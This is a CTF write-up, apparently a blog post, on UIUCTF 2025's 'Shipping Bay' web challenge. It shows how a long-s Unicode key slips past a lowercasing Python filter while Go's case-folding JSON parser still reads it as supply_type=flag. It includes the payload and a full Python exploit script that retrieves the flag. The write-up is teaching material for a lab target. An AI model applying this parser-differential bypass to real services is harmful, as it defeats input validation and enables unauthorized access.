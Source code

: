 ```yaml
---
title: UIUCTF 2025 - Shipping Bay
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - UIUCTF
tags:
  - web
  - python
  - go
  - Parser-differential
authors:
  - Valenter
---
```

*UPS lost my package, so I'm switching to a more reliable carrier.*

Here we are in Chapter Three of our Cyberspace Odyssey for uiuctf; this time, we are tasked with retrieving a particular cosmic cargo that got lost during astral shipping.

![Homepage](/uiuctf2025/shipping-bay/screenshot-1.png)

A real flashback to the future with its Y2K/Vaporwave Classic Windows 98 UI, proof that even in the space age, fashion remains cyclical.

## Unpacking the interplanetary cargo

Let's try to create a new shipment.

![shipping](/uiuctf2025/shipping-bay/screenshot-2.png)

We can pick from a variety of options here, but it doesn't really matter, the space courier will always lose our package

```http
https://shipping-bay.chal.uiuc.tf/?status=oops+we+lost+the+package
```

Prodding at the code, there doesn't seem to be much we can work with, this debugging flag looks interesting at first:

```python
if __name__ == '__main__':
	app.run(debug=True)
```

but it's merely a red herring, we have no way of triggering the Werkzeug debug console.

Among the various supply types, there is one that piques our interest:

```go
//main.go
func sendShipment(shipment Shipment) string {
    if shipment.SupplyType == "flag" {
        if flag, exists := os.LookupEnv("FLAG"); exists {
            return flag
        }
        return "uiuctf{fake_flag}"
    }
    return "oops we lost the package"
}
```

But in order to retrieve our package, we first have to go through two different checks, this one in Go and the first one in `index.py`:

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)]).decode().strip()

    return redirect(url_for('index', status=shipment_status))
```

Flask collects all submitted fields into a dict, lowercasing each key, so we can't simply enter two identical `supply_type` parameters or use capital letters to trick it into accepting our input.

Note, however, that this still allows us to enter two different `supply_type` fields in our input, as long as the second one is worded ever-so-*slightly* differently.

But how can we bypass it while ensuring that Go still reads a properly formatted `supply_type = flag` from the resulting Json?

## Resistance is futile

Thankfully, my teammate Leonardo came to the rescue and found [this article](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching) that mentions this exact scenario.

We are going to use this character: `ſ` (Latin small long‑s, U+017F, unchanged by `.lower()`), which enables us to construct our final **payload**:

```python
    form = [
        ("origin",       uid),               # tutti i campi “normali”
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           # passa il filtro Python
        ("ſupply_type",   "flag"),            # secondo campo → debug
    ]
``` 

But **what** is going on under the hood?

On the **Python** side, only the ASCII‐key `"supply_type"` is checked, with our payload the ASCII key is still `"Tools"`, so this check passes.

```python
json.dumps(shipment_data)
subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)])
```

Json marshalling turns the payload into:

```json
{
  "origin":"…",
  …,
  "supply_type":"Tools",
  "ſupply_type":"flag"
}
```
*note that both keys appear distinctly*

On the **Go** (processing_service) side:

- Go’s JSON unmarshaller scans keys in order and, upon each match, sets the struct field
```go
type Shipment struct {
    …  
    SupplyType string `json:"supply_type"`
    …  
}
```
- It matches keys using **Unicode case‑folding** (`strings.EqualFold`), which maps both ASCII “s” and the long‑s “ſ” to the same fold class “s”.
- Therefore:

	1. On seeing `"supply_type":"Tools"`, it sets `SupplyType = "Tools"`.
    
	2. On seeing `"ſupply_type":"flag"`, it also matches the same field (since “ſ” folds to “s”) and overwrites it with `"flag"`
This gives rise to a sort of pseudo-homographic **parser differential** attack.

#### Final script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import re, uuid, requests
from urllib.parse import unquote_plus

BASE   = "https://shipping-bay.chal.uiuc.tf/"
CREATE = f"{BASE}/create_shipment"

def pretty(loc):
    if not loc:
        return None
    decoded = unquote_plus(loc)
    print("\n───── Location (decoded) ─────")
    for line in decoded.splitlines():
        print("│", line)
    print("───────────────────────────────")
    m = re.search(r"uiuctf\{[^}]+\}", decoded)
    return m.group(0) if m else None

def main():
    uid = f"Earth‑{uuid.uuid4()}"
    form = [
        ("origin",       uid),               
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           #passes Python filter
        ("ſupply_type",   "flag"),           #second field - passes Go's parser
    ]

    r = requests.post(CREATE, data=form, allow_redirects=False, timeout=5)
    print(f"[+] HTTP {r.status_code}")
    for k, v in r.headers.items():
        print(f"    {k}: {v}")

    flag = pretty(r.headers.get("Location", ""))
    print("\n[+] FLAG:", flag or "not found")

if __name__ == "__main__":
    main()
```
### ALL YOUR FLAGS ARE BELONG TO US

**`uiuctf{maybe_we_should_check_schemas_8e229f}`**